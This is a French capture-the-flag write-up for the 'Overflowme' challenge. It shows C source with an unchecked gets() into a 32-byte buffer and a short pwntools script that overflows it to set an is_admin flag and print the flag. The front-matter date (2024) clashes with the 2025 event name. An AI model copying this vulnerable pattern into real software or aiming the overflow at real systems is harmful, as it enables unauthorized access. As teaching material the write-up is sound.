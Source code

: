 ```yaml
---
title: "PwnMe Junior 2025 - Overflowme"
date: 2024-04-14
tags: ["buffer-overflow", "exploitation"]
categories: ["pwn"]
ctfs: ["pwnme-junior"]
---
```


# Write-up: Overflowme - PwnMe Junior 2025

## Description

Overflowme est un challenge de type "buffer overflow" classique, parfait pour s'initier aux techniques d'exploitation basiques.

## Analyse du binaire

Le programme est un binaire ELF 64 bits qui demande un nom d'utilisateur, puis vérifie si l'utilisateur est "admin". Si ce n'est pas le cas, il affiche un message d'erreur.

Voici un extrait du code source :

```c
#include <stdio.h>
#include <string.h>

int main() {
    char username[32];
    int is_admin = 0;
    
    printf("Username: ");
    gets(username);  // Vulnérabilité: utilisation de gets()
    
    if (is_admin) {
        printf("Welcome, admin! Here's your flag: PwnMe{buffer_0verflow_1s_e4sy}\n");
    } else {
        printf("Hello, %s! You are not admin.\n", username);
    }
    
    return 0;
}
```

## Vulnérabilité

La vulnérabilité se situe dans l'utilisation de la fonction `gets()`, qui lit l'entrée utilisateur sans vérifier la taille du buffer. Cela permet d'écrire au-delà des 32 caractères alloués à `username` et donc de modifier la valeur de `is_admin`.

## Exploitation

Pour exploiter cette vulnérabilité, il suffit d'envoyer 32 caractères pour remplir le buffer `username`, puis 4 ou 8 octets supplémentaires (selon l'architecture) pour écraser la valeur de `is_admin` avec une valeur non nulle.

```python
from pwn import *

# Connexion au serveur
conn = remote('challenge.pwnme.fr', 1337)

# Construction du payload: 32 'A' pour remplir le buffer + "\x01\x00\x00\x00" pour écraser is_admin
payload = b"A" * 32 + p32(1)

# Envoi du payload
conn.sendlineafter(b"Username: ", payload)

# Réception et affichage du flag
print(conn.recvall().decode())
```

## Flag

En exécutant l'exploit, nous obtenons le flag : `PwnMe{buffer_0verflow_1s_e4sy}` 